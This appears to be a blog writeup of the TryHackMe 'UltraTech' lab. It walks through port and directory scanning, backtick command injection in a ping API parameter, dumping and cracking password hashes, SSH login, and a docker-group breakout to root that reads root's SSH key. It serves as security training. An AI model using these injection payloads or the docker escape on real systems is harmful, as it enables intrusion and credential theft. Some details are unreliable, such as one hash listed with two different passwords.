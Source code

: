 ```yaml
---
layout: post
title: "UltraTech — Writeup"
date: 2023-06-02 
categories: [Tryhackme,Linux Machines]
tags: [tryhackme, security, pentest, enumeration, web ultratech1]
link: https://tryhackme.com/room/ultratech1
image: /assets/img/Posts/ut.png
---
```


###
`INTRODUCTION`

UltraTech is a medium level rated room that gives a perspective of security practices. It explores enumeration, subdomain discovery and Privilege escalation. Let's begin.
## `Initial recon`
### `Port scanning`

We start off with an nmap scan to identify open ports and the services thy are running.

```shell
nmap -sC -sV -p- 10.10.105.45 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 10:01 EAT
Nmap scan report for 10.10.105.45
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2611.45 seconds

```
The scan answers some of the queistions asked

Which software is using the port 8081?
```shell
8081/tcp  open  http    Node.js Express framework
```

Which other non-standard port is used?
```shell
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Which software using this port?
```shell
Apache 
```

The scan answers the above questions. As always, always explore the target.
upon visiting http://10.10.105.45:8081/ we find it uses an api 
```shell
UltraTech API v0.1.3
```
Now it gets interesing.

We have an ftp service on port 21. Let's check that out. Always check the port for any anopnymous login. 
```shell
ftp anonymous@10.10.105.45
Connected to 10.10.105.45.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
```
It didnt go through.
Lets visit port 31331 (http://10.10.105.45:31331/)

![website] (/assets/img/Posts/3131.png)


We proceed to fuzz for directories
We are aiming to establish the api routes
Which GNU/Linux distribution seems to be used?
The software using the port 8081 is a REST api, how many of its routes are used by the web application?

### `Subdomain discovery`
Start a directory scan using ffuf
```shell
ffuf -u http://10.10.105.45:31331/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
Back to the scan and something is cooking
```shell
    FUZZ: js
    FUZZ: javascript
    FUZZ: server-status
    FUZZ: images
```
The directory, http://10.10.105.45:31331/js has some interesting endpoints.

![website] /assets/img/Posts/ut.png


### `Vulnerable parameter discovery`
```shell 
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error')
```
This line `const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}` is interesting. We can query the API by altering the request.
We try some commands which looks something like this
```shell
http://10.10.103.195:8081/ping?ip=ls

Output : ping: ls: Temporary failure in name resolution
```
We get an error but towards the right direction
Let's try aother command. We add `` characters to the command
```shell
http://10.10.103.195:8081/ping?ip=`ls`
```

This time we get a file
```shell
ping: utech.db.sqlite: Name or service not known

```
We can execute an rce using the ping command to fetch data.
```shell
http://10.10.103.195:8081/ping?ip=`cat utech.db.sqlite`
```

The output is some hash
Mr00tf357a0c52799563c7c7b76c1e7543a32
Madmin0d0ea5111e3c1def594c1684e3b9be84

Now we crack these hashes to establish if they are credentials.

We will use an online cracking tool https://crackstation.net/ for this task
0d0ea5111e3c1def594c1684e3b9be84 - n100906
0d0ea5111e3c1def594c1684e3b9be84 - mrsheafy

As we recall, there was a port 22 that was running a ssh service. We can checkif this credentials work.

```shell
 ssh r00t@10.10.105.45
r00t@10.10.105.45's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

r00t@ultratech-prod:~$ whoami
r00t

```
We are in!

Have a look around.

```shell
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ ls -la
total 28
drwxr-xr-x 4 r00t r00t 4096 Jun  6 06:17 .
drwxr-xr-x 5 root root 4096 Mar 22  2019 ..
-rw-r--r-- 1 r00t r00t  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 r00t r00t 3771 Apr  4  2018 .bashrc
drwx------ 2 r00t r00t 4096 Jun  6 06:17 .cache
drwx------ 3 r00t r00t 4096 Jun  6 06:17 .gnupg
-rw-r--r-- 1 r00t r00t  807 Apr  4  2018 .profile
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```

User r00t doesn't have root privileges.
We'll have to change that.

We check the groups that are in the machine

```shell
r00t@ultratech-prod:~$ groups
r00t docker
```
This makes this interesting. We have a docker container here and basically the run with root as the default user. More info here https://juggernaut-sec.com/docker-breakout-lpe/
 We head to gtfobins and find a command that can upgrade the shell.

 ```shell
 docker run -v /:/mnt --rm -it bash chroot /mnt sh
 ```
 `WE ARE ROOT`

 ```shell
 r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var
# cd root
```
We can then locate the id_rsa
```shell
ls -la .ssh
total 16
drwx------ 2 root root 4096 Mar 22  2019 .
drwx------ 6 root root 4096 Mar 22  2019 ..
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
# cat .ssh/id_rsa
# cat .ssh/id_rsa
```
There you have it.
HHAPPY LEARNING! ♥

